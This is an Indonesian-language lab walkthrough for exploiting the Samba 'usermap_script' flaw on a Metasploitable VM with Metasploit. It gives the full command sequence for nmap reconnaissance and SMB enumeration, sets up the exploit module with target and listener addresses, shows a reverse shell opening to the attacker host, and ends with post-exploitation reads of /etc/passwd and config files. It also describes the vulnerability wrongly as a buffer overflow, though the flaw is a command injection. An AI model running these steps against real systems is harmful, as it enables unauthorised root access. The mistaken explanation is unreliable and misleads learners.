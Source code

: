 # Introduction

**Samba** adalah seperangkat program sumber terbuka (_open source_) yang memungkinkan sistem Linux/Unix berinteraksi dengan jaringan yang **berbasis pada protokol SMB/CIFS** (_Server Message Block/Common Internet File System_), yang merupakan protokol standar untuk berbagi file dan printer di lingkungan Windows.

Secara sederhana, Samba bertindak sebagai "jembatan" atau "penerjemah" yang memungkinkan komputer Linux untuk berbagi file dan printer dengan komputer Windows seolah-olah komputer Linux tersebut adalah server Windows asli.

Kerentanan Samba _usermap_script_ adalah cacat _buffer overflow_ yang memungkinkan penyerang untuk mengeksekusi perintah dengan hak akses root tanpa otentikasi. Ini adalah salah satu kerentanan yang paling dicari karena dampaknya yang parah.

Apa itu **_Buffer Overflow_**? Ini adalah kondisi di mana sebuah program mencoba menulis data lebih banyak ke dalam suatu area memori (_buffer_) daripada yang bisa ditampung. Akibatnya, data tersebut meluber ke area memori di sekitarnya, yang bisa dimanfaatkan oleh penyerang untuk menyuntikkan dan menjalankan kode berbahaya mereka sendiri.

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

Memindai port samba, yaitu 445 (SMB over TCP) dan 139 (NetBIOS-SSN) pada IP target
```
nmap -p 445,139 --script=smb-os-discovery <ip_metasploitable>
```
Script _smb-os-discovery_ digunakan untuk mendeteksi sistem operasi target, nama hostname, dan informasi domain/workgroup melalui protokol Samba.
```
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:68:17:AC (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2025-08-21T06:56:33-04:00
```
**3. _Gaining Access (Exploitation)_**
- Menjalankan Metasploit Framework
```
msfconsole
```
- Mencari modul eksploitasi yang sesuai dengan kerentanan yang ditemukan
```
search samba usermap
```

```
Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution

```
Modul _exploit/multi/samba/usermap_script_ akan mengirimkan payload yang telah dikonfigurasi ke server Samba, memanfaatkan _buffer overflow_ untuk mendapatkan shell dengan hak akses root.

Modul ini menargetkan kerentanan pada utilitas usermap di dalam Samba, yang secara spesifik ada di versi-versi lama Samba (seperti 3.0.20 hingga 3.0.25rc3).
- Memilih dan mengatur eksploitasi
```
use exploit/multi/samba/usermap_script
set RHOSTS <ip_metasploitable>
set LHOST <ip_kali_linux>
```

- Cek _requirement_, pastikan tidak ada yang kurang atau terlewat
```
show options
```
- Jika sudah lengkap, jalankan serangan
```
exploit
```

```
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 192.168.175.235:4444 
[*] Command shell session 1 opened (192.168.175.235:4444 -> 192.168.175.90:58041) at 2025-08-13 09:28:17 -0400

```
**4. _Maintaining accsess dan Post exploitation_**
- Verifikasi user atau akses root
```
whoami
```
- Eksplorasi sistem
```
ls -l                    //melihat list file dan direktory
```
```
uname -a                 //melihat versi kernel dan informasi sistem
```
```
cat /etc/passwd          //melihat daftar user
```
```
find / -name "*.conf"    //mencari file sensitif
```
